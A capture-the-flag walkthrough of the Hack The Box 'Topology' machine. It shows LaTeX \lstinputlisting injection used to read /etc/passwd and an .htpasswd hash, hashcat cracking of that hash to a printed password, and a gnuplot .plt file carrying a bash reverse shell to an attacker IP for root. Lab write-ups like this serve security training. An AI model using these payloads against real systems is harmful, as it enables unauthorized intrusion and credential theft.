









# Topology


| OS | Points | Difficulty | Creator |
|:-:|:-:|:-:|:-:|
| Linux | 20 | Easy | gedsic |



## Contents

Highlighted sections are the ones that directly led to advancing access.

1. [Scanning and Fingerprinting](#scanning-and-fingerprinting)
2. [Web Enumeration](#web-enumeration)
3. [Arbitrary File Read](#arbitrary-file-read)
4. [Server Enumeration](#server-enumeration)
5. [Password Cracking](#password-cracking) - **User Flag**
6. [Enumeration for Privilege Escalation](#enumeration-for-privilege-escalation)
7. [Command Injection in Gnuplot Files](#command-injection-in-gnuplot-files) - **Root Flag** 
## Scanning and Fingerprinting

As always. start with an Nmap scan to get a sense of where to start.
`sudo nmap -sC -sS -sV -p- --min-rate=5000 -vvv -oG topology.nmap 10.10.11.217`
- `-sC` - always run default scripts because they're safe and catch low hanging fruit.
- `--min-rate=5000` - speed things up, wouldn't try with real hosts, hack the box VMs can handle it.
- `-p-` - scan all ports in case their hiding something by using a non standard port.
- `-oG` - use grep-able output so we can find stuff more easily later on.

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC65qOGPSRC7ko+vPGrMrUKptY7vMtBZuaDUQTNURCs5lRBkCFZIrXTGf/Xmg9MYZTnwm+0dMjIZTUZnQvbj4kdsmzWUOxg5Leumcy+pR/AhBqLw2wyC4kcX+fr/1mcAgbqZnCczedIcQyjjO9M1BQqUMQ7+rHDpRBxV9+PeI9kmGyF6638DJP7P/R2h1N9MuAlVohfYtgIkEMpvfCUv5g/VIRV4atP9x+11FHKae5/xiK95hsIgKYCQtWXvV7oHLs3rB0M5fayka1vOGgn6/nzQ99pZUMmUxPUrjf4V3Pa1XWkS5TSv2krkLXNnxQHoZOMQNKGmDdk0M8UfuClEYiHt+zDDYWPI672OK/qRNI7azALWU9OfOzhK3WWLKXloUImRiM0lFvp4edffENyiAiu8sWHWTED0tdse2xg8OfZ6jpNVertFTTbnilwrh2P5oWq+iVWGL8yTFeXvaSK5fq9g9ohD8FerF2DjRbj0lVonsbtKS1F0uaDp/IEaedjAeE=
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIR4Yogc3XXHR1rv03CD80VeuNTF/y2dQcRyZCo4Z3spJ0i+YJVQe/3nTxekStsHk8J8R28Y4CDP7h0h9vnlLWo=
|   256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOaM68hPSVQXNWZbTV88LsN41odqyoxxgwKEb1SOPm5k
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Miskatonic University | Topology Group
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looks like our foothold is going to be through a web application so the next step would be web enumeration.

## Web Enumeration

I started BurpSuite and set it as my browser's proxy to make sure I have a log of everything that I'm doing from the start. *Remember to add the machine to your scope in Burp to avoid clutter.*

Just looking at the index page, under "Software Projects" there is a link to `http://latex.topology.htb/equation.php`. I added that to `/etc/hosts` and browsed to it to see what it does.



Looks like you pass it some equations in LaTeX syntax and it returns an image with the rendered output. When I click "Generate" it makes a get request to the `/equation.php` file with the equation in a GET parameter.
- `http://latex.topology.htb/equation.php?eqn=%5Calpha+%5Cbeta+%5Cgamma+%09&submit=`

That empty `submit` GET parameter is kinda suspicious but I feel like this is going in the arbitrary file read direction so that is something to look at later.

Before moving on to the exploitation phase let me do some directory enumeration to check for other `php` files that may be accessible.

`feroxbuster -u "http://latex.topology.htb/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt -x html -x php -x tex`
- Huh, seems like they are all directory listings. I'll take it.


The files that are interesting here are the `equationtest.*` and `header.tex` files. I downloaded all of them to look for clues.
`wget http://latex.topology.htb/header.tex`
`wget http://latex.topology.htb/equationtest.{out,png,aux,tex,pdf,log}`

The `header.tex` file defines the list of included packages. It also has comments for the purpose of each package. On line #6, the `listings` package gives is used to include source code files. (this is probably it)

## Arbitrary File Read

I looked up the `listings` package and I found this Overleaf [page](https://www.overleaf.com/learn/latex/Code_listing). According to this I can include external files using the `\lstinputlisting{<file_path>}` function. Trying just the function did not work so I thought this could be because our input is being dropped into a LaTeX math expression.

The way to get around this is to wrap your function in `\text{}`.
`http://latex.topology.htb/equation.php?eqn=\text{\lstinputlisting{%2Fetc%2Fpasswd}}&submit=`


The only user with a shell here is `vdaisley`. 

Unfortunately, arbitrary file read on its own can't give me a foothold so back to enumeration.

## Server Enumeration

Reading straight from `./equation.php` or `equation.php`. I randomly tried to go one directory above and it worked.
`http://latex.topology.htb/equation.php?eqn=\text{\lstinputlisting{../equation.php}}&submit=`
*Reading text from very large PNGs is a pain*

This file is pretty simple and the user input is not being used in any unexpected ways.

Next I looked at the configuration of the web server. The main configuration file for Apache is at `/etc/apach2/apache2.conf`. I couldn't find anything helpful here but it references a `ports.conf`, maybe there are filtered ports that nmap didn't pick up.

The `ports.conf` file did not have any hidden filtered ports but it had the configuration file for all the virtual hosts on Apache. `/etc/apache2/sites-enabled/000-default.conf`

The virtual hosts configuration files reveals two extra subdomains that I didn't know about before.
- `dev.topology.htb`
- `stats.topology.htb`

I added both to my `/etc/hosts` and tried navigating to them. The `stats` subdomain seems to be down but `dev`, on the other hand, asks for authentication. 



The way apache handles authentication is through the `.htaccess` and `.htpasswd` files. The `.htpasswd` file should contain usernames and password hashes. I can find those files using the path from the `000-default.conf` and the arbitrary file read vulnerability from earlier.
- `/var/www/dev/.htpasswd`


If I can crack this hash I can see if the credentials are re-used for `ssh`.

## Password Cracking

To begin I just ran `hashid` to figure out what kind of hash I'm dealing with. I didn't want to copy the hash by hand so I used and online [OCR tool](https://www.newocr.com/). *Careful, there are a lot of ads.*
- Here, thank me later: `$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0`


Next, I cracked the hash using a dictionary attack with `hashcat` and `rockyou.txt`. It took about 2 minutes.
- `hashcat -m 1600 -a 0 -O hash /usr/share/wordlists/rockyou.txt`
- output -> `$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus20`

Now I can ssh onto the machine as `vdaisely`.



## Enumeration for Privilege Escalation

Now for the root flag. We need to escalate privilege so we go back to everyone's favorite part of the job... enumeration.

First thing I tried is seeing if I can run anything as root with `sudo`. No luck.
- `sudo -l` -> `Sorry, user vdaisley may not run sudo on topology.`

Tried looking at network connections but the machine is only listening ports `80` and `22`. 
- `netstat -antlp`

Next I tried looking for scheduled cron jobs, nothing...
- `cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"`

The next thing I tried is looking for SUID binaries. None of the resulting binaries have a known privesc path.
- `find / -perm -4000 2>/dev/null`

Now that I've tried all the easy things I'll switch to more active enumeration. Lets run `pspy` on the machine to see if there are any automated commands being run by root.
- download -> `wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64`
- copy to topology box -> `scp pspy64 vdaisley@10.10.11.217:/home/vdaisley/`



Pspy picked up the commands being run by web app from ealier, these are the ones that deal with PDFs. The ones that are interesting right now are the `gnuplot` commands.
- `/bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \;`
- `/bin/sh /opt/gnuplot/getdata.sh`

If I can control the files in `/opt/gnuplot` I can get RCE by throwing a revshell command in a `.plt` or the `getdata.sh` file. I checked the permissions on the directory:
- `ls -al /opt` -> `drwx-wx-wx  2 root root 4096 Aug 21 04:19 gnuplot`

Looks like I don't have read permission on that directory so I can't list its contents. However I have execute and write permissions. The execute permission lets me enter that directory but that is not very useful right now. 

The write permission lets us delete, rename, and create files in that directory normally. In this case I can't modify or delete existing files because the OS needs to read the directory to find them in memory. That only leaves the file creation option since the `vdaisley` user can write to the directory.

## Command Injection in Gnuplot Files

I found this [article](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/) about command injection in PLT files. Seems pretty straight forward, I just have to use the `system` keyword.

First, I'll start a listener on my kali machine to receive the reverse-shell. 
- on Kali - `nc -lvnp 9000`

Then, I'll put the payload in a PLT file in the `/opt/gnuplot` directory. 
- on target - `echo "system \"bash -c 'bash -i >& /dev/tcp/<your_ip>/9000 0>&1'\"" > gnuplot/revshell.plt`

Then we wait...



Now we can just `cat` the root flag and submit.